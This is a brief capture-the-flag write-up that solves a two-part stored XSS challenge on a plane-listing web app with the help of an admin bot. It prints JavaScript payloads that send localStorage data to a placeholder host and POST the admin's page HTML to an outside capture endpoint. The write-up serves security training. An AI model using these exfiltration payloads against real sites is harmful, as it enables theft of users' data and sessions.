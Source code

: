 # Aeroplanes.md
#ctf

### 021924

# Part 1: Hostile Images
After a lot of google-fu we can see that inputs encoded as b64 data. In order to take advantage of this we need to find a input field that is read as html, and a payload to export local storage "FLAG" to our exfil point. The plane description field reads html (found by entering <b>text</b> into every box). We can use this code morphed together from a bunch of SO articles and GPT to create this payload:
```javascript
new Image().src='exfiltrationpoint.com/' + localStorage.getItem(FLAG_Y);
```
Creating a plane with this description and sending the link to the adminbot dumps the flag into our hands.

# Part 2: All your base are belong to us
Working through the source code, we can see that the next flag is stored as a plane on the admin account. We could do a lot of thinking to find out how to just rip the fields we need, or we can just take the entire homepage. This is much easier:
```javascript
fetch('https://aeroplanes.ctf-league.osusec.org/home')
  .then(response => response.text())
  .then(htmlContent => {
    fetch('https://kevin.free.beeceptor.com/', {
      method: 'POST',
      headers: {
        'Content-Type': 'text/html'
      },
      body: htmlContent
    });
  });
```
This dumps the entire html into our hands, where we can just ctrl-f the flag.
